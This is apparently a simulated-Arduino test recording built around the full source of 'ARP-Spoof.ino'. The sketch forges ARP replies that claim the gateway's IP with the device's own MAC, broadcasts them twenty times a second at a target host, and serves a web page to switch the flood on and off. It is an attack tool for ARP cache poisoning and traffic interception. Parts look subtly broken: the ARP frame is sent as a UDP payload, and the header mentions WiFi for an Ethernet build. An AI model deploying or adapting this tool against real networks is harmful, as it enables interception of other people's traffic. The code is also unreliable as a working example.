
Recording of a sketch running on a simulated Arduino Uno, built with avr-gcc and run on an emulated ATmega328P. Parts: output pins drawn as LEDs (lit = HIGH), the last lines printed to the serial monitor. The inputs (shaded band) are chosen by the test bench. WiFi joins after 1.5 s; servers stay silent unless stated.

Above: at 6.7 s.
6.8 s: HTTP request GET /toggle?status=ON received
At 6.88 s:

8.3 s: HTTP request GET /toggle?status=OFF received
At 9.6 s:


Measured:
- after the input at 6.8 s, the serial monitor: prints a new line at once (image 1)
- after the input at 8.3 s, the serial monitor: prints a new line at once (image 2)

The sketch:

ARP-Spoof.ino
```cpp
// (licence header left out)
#include <SPI.h>
#include <Ethernet.h>
#include <EthernetUdp.h>

// ===== Settings ===== //
#define debug /* Uncomment to get serial output */
#define led 9
int packetRate = 20; // Packets sent per second
static uint8_t mymac[] = { 0xc0, 0xab, 0x03, 0x22, 0x55, 0x99 };

int arp_count = 0;
unsigned long prevTime = 0;
bool connection = false;
bool toggle_status = false;

// ARP reply packet
uint8_t _data[42] = {
  /* Ethernet frame header */
  0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, // Destination MAC: Broadcast
  0x01, 0x02, 0x03, 0x04, 0x05, 0x06, // Source MAC: Example MAC address
  0x08, 0x06,                         // EtherType: ARP

  /* ARP packet */
  0x00, 0x01,                         // Hardware type: Ethernet
  0x08, 0x00,                         // Protocol type: IPv4
  0x06,                               // Hardware size: MAC length
  0x04,                               // Protocol size: IP length
  0x00, 0x02,                         // Opcode: ARP Reply (0x02)
  0x01, 0x02, 0x03, 0x04, 0x05, 0x06, // Sender MAC address
  0xc0, 0xa8, 0x02, 0x01,             // Sender IP address (192.168.2.1)
  0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, // Target MAC address (Broadcast)
  0xc0, 0xa8, 0x02, 0x64              // Target IP address (192.168.2.100)
};

EthernetUDP Udp;
EthernetServer server(80); // Create a server that listens on port 80

bool sendARP() {
  long curTime = millis();

  if (curTime - prevTime > 1000 / packetRate) {
    digitalWrite(led, HIGH);

    Udp.beginPacket(IPAddress(192, 168, 2, 100), 0); // Target IP address
    Udp.write(_data, sizeof(_data));
    Udp.endPacket();

    arp_count++;
    prevTime = curTime;

    digitalWrite(led, LOW);

#ifdef debug
    Serial.println("ARP PACKET SENT");
#endif

    return true;
  }

  return false;
}

void _connect() {
  Ethernet.begin(mymac);
  delay(1000);

  if (Ethernet.localIP() == INADDR_NONE) {
#ifdef debug
    Serial.println("DHCP failed");
#endif
    connection = false;
  } else {
#ifdef debug
    Serial.print("My IP: ");
    Serial.println(Ethernet.localIP());
    Serial.print("Netmask: ");
    Serial.println(Ethernet.subnetMask());
    Serial.print("Gateway IP: ");
    Serial.println(Ethernet.gatewayIP());
    Serial.print("DNS IP: ");
    Serial.println(Ethernet.dnsServerIP());
#endif

    // Set gateway IP
    IPAddress gatewayIP = Ethernet.gatewayIP();
    for (int i = 0; i < 4; i++) _data[28 + i] = gatewayIP[i];

    // Set fake MAC
    for (int i = 0; i < 6; i++) _data[6 + i] = _data[22 + i] = mymac[i];

    connection = true;
  }
}

void setup() {
  pinMode(led, OUTPUT);

#ifdef debug
  Serial.begin(115200);
  delay(2000);
  Serial.println("ready!");
  Serial.println("waiting for LAN connection...");
#endif

  Ethernet.init(17);  // W5500 chip select pin
  while (!connection) {
    _connect();
    delay(1000);
  }

  Udp.begin(8888); // Initializing UDP
  server.begin();  // Start the web server
}

void handleClient(EthernetClient client) {
  if (client) {
    bool currentLineIsBlank = true;
    String request = "";

    while (client.connected()) {
      if (client.available()) {
        char c = client.read();
        request += c;

        if (c == '\n' && currentLineIsBlank) {
          if (request.indexOf("GET /toggle?status=ON") >= 0) {
            toggle_status = true;
#ifdef debug
            Serial.println("Turn ON requested");
#endif
          } else if (request.indexOf("GET /toggle?status=OFF") >= 0) {
            toggle_status = false;
#ifdef debug
            Serial.println("Turn OFF requested");
#endif
          }

          // Send the response
          client.println("HTTP/1.1 200 OK");
          client.println("Content-Type: text/html");
          client.println("Connection: close");
          client.println();

          client.println("<!DOCTYPE HTML>");
          client.println("<html>");
          client.println("<head><title>ARP Spoofer</title>");
          client.println("<style>");
          client.println("body { background-color: #121212; color: white; font-family: Arial, sans-serif; display: flex; flex-direction: column; align-items: center; justify-content: center; height: 100vh; margin: 0; }");
          client.println("h1 { margin-bottom: 20px; }");
          client.println(".button { display: inline-block; padding: 30px 50px; font-size: 30px; color: white; background-color: #333; border: 2px solid white; border-radius: 50%; text-decoration: none; margin-bottom: 20px; }");
          client.println(".button:hover { background-color: #444; }");
          client.println("p { font-size: 20px; }");
          client.println("</style>");
          client.println("</head>");
          client.println("<body>");
          client.println("<h1>ARP Spoofer</h1>");
          if (toggle_status) {
            client.println("<a href=\"/toggle?status=OFF\" class=\"button\">ON</a>");
          } else {
            client.println("<a href=\"/toggle?status=ON\" class=\"button\">OFF</a>");
          }
          client.println("<p>Packets sent: " + String(arp_count) + "</p>");
          client.println("</body>");
          client.println("</html>");

          break;
        }

        if (c == '\n') {
          currentLineIsBlank = true;
        } else if (c != '\r') {
          currentLineIsBlank = false;
        }
      }
    }

    delay(1);
    client.stop();
  }
}

void loop() {
  EthernetClient client = server.available();
  if (client) {
    handleClient(client);
  }

  if (connection && toggle_status) {
    sendARP();
  } else {
    digitalWrite(led, LOW); // No Connection, turn off STATUS LED
  }
}
```
